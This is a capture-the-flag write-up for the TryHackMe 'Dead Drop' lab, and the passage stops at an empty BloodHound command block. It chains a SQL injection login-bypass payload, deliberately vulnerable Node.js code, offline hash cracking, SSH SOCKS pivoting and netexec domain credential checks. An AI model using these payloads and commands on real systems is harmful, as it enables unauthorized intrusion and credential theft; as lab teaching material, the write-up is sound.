# DeadDrop Ltd. — Internal Network Penetration Test

*From External Web Foothold to Domain Controller Compromise via Active Directory ACL Abuse*

**TryHackMe Room:** Dead Drop &nbsp;|&nbsp; **Engagement Type:** Black-Box Web → Internal AD Pivot

---

## Task Scenario

You have been engaged as a penetration tester for a security audit of DeadDrop Ltd, a document management company that provides file-sharing services to corporate clients. The company recently expanded its infrastructure and wants assurance that its systems are secure before onboarding a major new client.

Your point of entry is a web-facing file-sharing application. Behind it sits an internal corporate network with no direct access. The objective is clear: compromise the domain controller and retrieve the flag from the Administrator's desktop.

### Scope and Rules of Engagement

| Machine | Role | Access |
|---|---|---|
| DeadDrop-WEB | DMZ web server | Directly accessible via VPN |
| Internal network (`192.168.11.0/24`) | Corporate LAN | Not directly accessible — reached through the DMZ pivot |

**In scope:**
- All services running on the lab machines
- Any credentials or hashes discovered along the way
- Pivoting from the DMZ into the internal network
- Active Directory enumeration and ACL-based attacks

**Out of scope:**
- Denial of service attacks
- Social engineering of DeadDrop Ltd employees
- Modifying or deleting data on production systems


*Figure 0 — Lab topology: DEADDROP-DC (192.168.11.100), WebServer/DMZ (192.168.11.200), DEADDROP-WRK (192.168.11.51).*

---

## Summary

The engagement began with a **SQL injection authentication bypass** against the DeadDrop file-sharing web application, granting an administrative session. The application's file preview feature contained an intentional **Node.js `require()` code-execution vulnerability**, which was used to enumerate the host, leak `/etc/passwd`, and dump a SHA-512crypt shadow hash for a local service account. The hash was **cracked offline**, yielding SSH access to the DMZ web server (DeadDrop-WEB).

From the SSH foothold, a mobile application APK was discovered in a backup directory and **reverse engineered using apktool**, revealing a hardcoded Active Directory credential pair for a domain user (`{Redacted}`). This credential was validated against the internal domain controller through an **SSH dynamic port-forward (SOCKS proxy) pivot**. **BloodHound-driven Active Directory enumeration** revealed that `{Redacted}` held a direct, non-inherited `{Redacted}` ACL right over the **{Redacted}** privileged group. Abusing this right to add the account to the group escalated privileges to Domain Admin–equivalent access, which was used to obtain a **SYSTEM shell on the domain controller via Impacket's `psexec`** and retrieve the flag from the Administrator's desktop.

### Quick-Reference Answers

| Milestone | Answer |
|---|---|
| SSH password for the web server | `{Redacted}` (user: `svc-drop`) |
| Internal mobile application credentials | `{Redacted}` |
| Abusable Active Directory permission | `{Redacted}` |
| Target group for Domain Admin escalation | `{Redacted}` |
| Flag on the Domain Controller | `THM{Redacted}` |

---

## Techniques, Commands, and Walkthrough

Techniques are grouped below in the order they were applied during the engagement. Each section names the technique category, the commands/code used (and why), and the corresponding evidence captured during testing. **Only steps that produced working results are included.**

### 1. SQL Injection — Authentication Bypass (Initial Access)

**Category:** Web Application Exploitation — Injection (OWASP A03)

The DeadDrop login form was vulnerable to SQL injection because the backend built queries via raw string concatenation instead of parameterised statements. Submitting a classic tautology payload in the username field caused the `SELECT` statement to always evaluate true, returning the first user row (`admin`) and granting an authenticated session without valid credentials.

```text
Username: admin' or 1=1 --
Password: (anything)
```

Root cause (confirmed later from leaked `app.js` source):

```js
// VULNERABLE: SQL injection via string concatenation (no parameterised query)
const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
const user = db.prepare(query).get();
```


*Figure 1 — Authenticated DeadDrop dashboard reached via the SQLi auth bypass, showing uploaded files including several suspicious `.js` payloads.*

---

### 2. Insecure `require()` — Arbitrary Code Execution via File Preview

**Category:** Remote Code Execution — Unsafe Dynamic Module Loading

The application's `/preview/:filename` route attempted to render uploaded `.js` files by passing them through Node's `require()`. Since `require()` executes a module's top-level code, any uploaded JavaScript file was executed server-side. Combined with a weak upload filter (only a denylist on certain extensions, bypassable via the application's own rename feature), this allowed arbitrary file reads and command output to be returned in the "preview" response.

```js
// VULNERABLE: Preview route that require()'s .js files — gives RCE
if (ext === '.js') {
  delete require.cache[require.resolve(filePath)];
  const moduleExport = require(filePath);
  ...
}
```

Pre-planted payload files already present on the box (`bd.js`, `hack1.js`, `list_pass.js`, `pass_hack.js`) were previewed directly from the dashboard, leaking: process identity/environment, directory listings, the full `/etc/passwd` file, and a shadow-format password hash for a local account.


*Figure 2 — Preview of hack1.js leaking application-level credentials (`admin` / `svc-backup`) from the users table.*


*Figure 3 — Preview of bd.js leaking process identity (`uid=996 node`), cwd, and a directory listing of `/opt/app` including `db/` and `backup/` folders.*


*Figure 4 — Preview of list_pass.js leaking a SHA-512crypt (`$6$`) shadow hash for the local account `svc-drop`.*

`pass_hack.js` (previewed the same way) returned the full `/etc/passwd`, confirming `svc-drop` (uid 1001, `/bin/bash`) as a real, SSH-capable local account — distinct from the unprivileged `node` service account.

---

### 3. Reconnaissance — Service Enumeration

**Category:** Network/Service Reconnaissance

```bash
nmap -sC -sV 192.168.11.200
```

Confirmed the DMZ host exposed only SSH (22) and an HTTP Node.js/Express service (80), narrowing the attack surface to the web application and SSH.


*Figure 5 — Nmap service scan of DeadDrop-WEB (192.168.11.200): OpenSSH 9.6p1 on 22, Node.js Express on 80.*

---

### 4. Offline Password Cracking

**Category:** Credential Attacks — Hash Cracking

The leaked shadow hash (`$6$` = SHA-512crypt) for `svc-drop` was saved locally and cracked offline using John the Ripper against the rockyou wordlist.

```bash
echo 'svc-drop:{Redacted}' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt
```

**Result:** `svc-drop : {Redacted}`


*Figure 6 — John the Ripper cracking the svc-drop SHA-512crypt hash to recover the plaintext password "{Redacted}".*

---

### 5. SSH Foothold & Local Enumeration

**Category:** Initial Foothold / Post-Exploitation Enumeration

```bash
ssh svc-drop@192.168.11.200
# password: {Redacted}

id
whoami
sudo -l
```

`sudo -l` confirmed `svc-drop` had no sudo rights, ruling out a local privilege-escalation path and confirming this host's role was purely a pivot point into the internal network.


*Figure 7 — SSH login as svc-drop using the cracked password; sudo -l confirms no local sudo rights.*

---

### 6. Local Database Extraction Without `sqlite3` Binary

**Category:** Living-off-the-Land Data Extraction

The `sqlite3` CLI was not installed and the account had no package-install rights (no sudo). Rather than requesting elevated access, Python's built-in `sqlite3` module was used instead to query the application database directly.

```bash
python3 -c "
import sqlite3
conn = sqlite3.connect('/opt/app/db/deaddrop.db')
cur = conn.cursor()
cur.execute(\"SELECT name FROM sqlite_master WHERE type='table';\")
print(cur.fetchall())
"

python3 -c "
import sqlite3
conn = sqlite3.connect('/opt/app/db/deaddrop.db')
cur = conn.cursor()
cur.execute('SELECT * FROM users;')
for row in cur.fetchall(): print(row)
"
```

Result confirmed the two application-level accounts already seen via the RCE leak (`admin` / `{Redacted}` and `svc-backup` / `{Redacted}`) — useful context, but not the system credential needed for the next pivot.

---

### 7. File Discovery — Locating the Internal Mobile Application

**Category:** Post-Exploitation File Discovery

```bash
find / -iname "*mobile*" 2>/dev/null
find / -iname "*.apk" 2>/dev/null
```

This surfaced the target artifact at two locations:

- `/home/svc-drop/backup/deaddrop-mobile.apk` (readable — own home directory)
- `/home/ubuntu/web-server/apk/deaddrop-mobile.apk` (another user's directory)


*Figure 8 — find locating deaddrop-mobile.apk in svc-drop's own backup directory.*

---

### 8. Mobile Application Static Analysis (APK Reverse Engineering)

**Category:** Mobile Application Security — Static Analysis / Hardcoded Secret Discovery

The APK was pulled to the attacking machine over SCP, then unzipped for an initial look before full decompilation:

```bash
scp svc-drop@192.168.11.200:/home/svc-drop/backup/deaddrop-mobile.apk .
unzip -o deaddrop-mobile.apk -d deaddrop-mobile-extracted
```


*Figure 9 — Downloading the APK via scp and unzipping its contents.*

A raw unzip only exposes compiled resources/Kotlin metadata (not human-readable source), confirming a proper decompiler was required rather than plain strings/grep on the archive.


*Figure 10 — Raw unzipped Kotlin/compose metadata — unreadable without decompilation.*

`jadx` initially failed on this host (relative-path resolution bug, then a save-directory creation error unrelated to permissions). `apktool` was used instead, successfully baksmali-decoding the DEX bytecode and decoding resources/AndroidManifest.xml:

```bash
apktool d deaddrop-mobile.apk -o deaddrop-apktool-out
```

The default (non-localised) `strings.xml` contained the hardcoded Active Directory credentials in plaintext, confirmed again inside the compiled `Config.smali` class:

```bash
grep -r -iE "password|username|secret|apikey|authorization" deaddrop-apktool-out/smali*/ 2>/dev/null

# relevant hits:
# smali_classes3/com/deaddrop/mobile/Config.smali:
#   .field public static final DEFAULT_USERNAME:Ljava/lang/String; = "j.harris"
#   .field public static final DEFAULT_PASSWORD:Ljava/lang/String; = "{Redacted}"
```

**Result:** `j.harris : {Redacted}`


*Figure 11 — Config.smali confirming the hardcoded AD credential pair: j.harris / {Redacted}.*

---

### 9. Network Pivoting — SSH Dynamic Port Forwarding + Proxychains

**Category:** Lateral Movement / Network Pivoting

DeadDrop-WEB sits in the DMZ but bridges onto the internal `192.168.11.0/24` network. An SSH dynamic port forward (SOCKS proxy) was opened through the existing `svc-drop` session, and proxychains was configured to route tooling through it.

```bash
ssh -D 1080 svc-drop@192.168.11.200
# password: {Redacted}

# /etc/proxychains4.conf — must point at the local SOCKS listener, not the Tor default:
socks5  127.0.0.1 1080
```

> **Troubleshooting note:** the default `proxychains4.conf` ships pointed at `socks4 127.0.0.1 9050` (Tor's port), which silently caused every proxied scan to show "filtered"/timeout results. Correcting the config to `socks5 127.0.0.1 1080` resolved all subsequent connectivity.


*Figure 12 — Default (incorrect) proxychains4.conf pointing at Tor's port 9050 instead of the SSH SOCKS forward.*

---

### 10. Internal Network & Service Enumeration

**Category:** Internal Reconnaissance (through pivot)

```bash
proxychains nmap -sT -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985 192.168.11.100
proxychains nmap -sT -Pn -p 135,139,445,3389,5985 192.168.11.51
```

Port 445 on `192.168.11.100` confirmed reachable, identifying it as **DEADDROP-DC**; AD-relevant ports (88 Kerberos, 389 LDAP, 445 SMB) indicated this was the domain controller.


*Figure 13 — Internal nmap scans of DEADDROP-DC and DEADDROP-WRK (SERVER1.thm.loc) through the proxychains pivot.*

Credential validation against the internal domain, using `netexec` (CrackMapExec fork), over SMB:

```bash
proxychains netexec smb 192.168.11.100 -u j.harris -p '{Redacted}'
```

Confirmed `j.harris` as a valid domain account on `deaddrop.loc`, hosted by DEADDROP-DC (Windows 10 / Server 2019 Build 17763).


*Figure 14 — netexec confirming j.harris as a valid deaddrop.loc domain account, marked "Pwn3d!".*

---

### 11. Active Directory Enumeration — BloodHound Collection

**Category:** Active Directory Enumeration

`bloodhound-python` was run through the proxy to collect LDAP-derived AD data (users, groups, OUs, GPOs, containers, trusts). UDP-based DNS SRV lookups do not traverse a TCP-only SOCKS proxy, so `--dns-tcp` was required to force DNS resolution over TCP (which proxychains can intercept).

```bash
